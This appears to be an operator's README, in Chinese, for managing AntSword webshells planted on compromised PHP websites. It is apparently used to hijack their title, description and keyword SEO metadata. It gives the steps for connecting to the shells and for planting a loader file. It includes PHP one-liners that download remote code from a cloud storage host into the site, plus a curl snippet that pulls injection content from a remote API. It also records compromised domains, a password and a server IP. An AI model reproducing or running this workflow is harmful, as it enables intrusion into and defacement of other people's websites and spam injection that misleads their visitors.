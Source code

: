 # README


## antsword配置
特殊的base64、rsa连接，需要先增加对应encode
见： ./config/antswords配置.md


## 修改shell流程：
1. 选择，encode方式，测试链接
2. 链接后找个位置放php，如/rewrite/httpd.php,这个php从oss获取要执行的php代码，
    - 参数1: 执行代码目录位置
    - 参数2: 云端最新代码连接
    配置完成之后执行一次， https://123456vip.top/rewrite/httpd.php
3. 执行修改代码，如:  https://123456vip.top/config/httpd.php?d=up&w=pa
    - 参数 d = dir, 指定开始递归便利的目录，可传: d=上一级，或者目录绝对路径，如： /www/wwwroot/xxx.com/
    - 参数 w = who, pa or be，两条线
 <?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
4. 修改完成之后做记录：
https://123456vip.top/template/template_init.php |mmk123 |  154.12.81.159
代码更新：0608 OK ✅
https://123456vip.top/rewrite/httpd.php
/www/wwwroot/74724/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/74724/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://123456vip.top/config/httpd.php?d=up

## TDK自定义配置
域名-TDK配置在阿里云OSS，格式如：
./tech/ossconf/alltk.json

shell连接之后，从云端获取全局修改tdk代码，代码源码在:
./tech/code/del_do.php，混淆后为： del_do.php

通过php接口获取,代码如下，rdm=当前根域名，w=当前线的代号
```
<?php
$curl = curl_init();
curl_setopt_array($curl, array(
  CURLOPT_URL => 'http://mulu.apid-tw.cc/api/websh/phptdk?rdm=kimsitu.com&w=pa',
  CURLOPT_RETURNTRANSFER => true,
  CURLOPT_ENCODING => '',
  CURLOPT_MAXREDIRS => 10,
  CURLOPT_TIMEOUT => 0,
  CURLOPT_FOLLOWLOCATION => true,
  CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
  CURLOPT_CUSTOMREQUEST => 'GET',
));
$response = curl_exec($curl);
curl_close($curl);
echo $response;
```